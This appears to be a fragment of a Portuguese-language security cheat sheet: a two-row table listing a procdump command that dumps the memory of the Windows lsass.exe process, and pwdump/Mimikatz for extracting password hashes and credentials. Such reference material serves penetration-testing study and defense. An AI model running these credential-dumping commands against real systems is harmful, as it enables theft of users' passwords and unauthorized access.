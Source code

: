 | COMANDO | DESCRIÇÃO |
|--------------------------------------------|--------------------------------------------------------------------------------------|
| procdump.exe -accepteula -ma lsass.exe lsass.dmp | Utilizado para criar um dump de memória do processo "lsass.exe" para salvar em formato .dmp |
| pwdump.exe 		//Mimikatz | Ferramenta utilizada para extrair hashes de senhas do Windows. O MimiKatz pode ser utilizado para obter as credenciais de segurança do Windows |
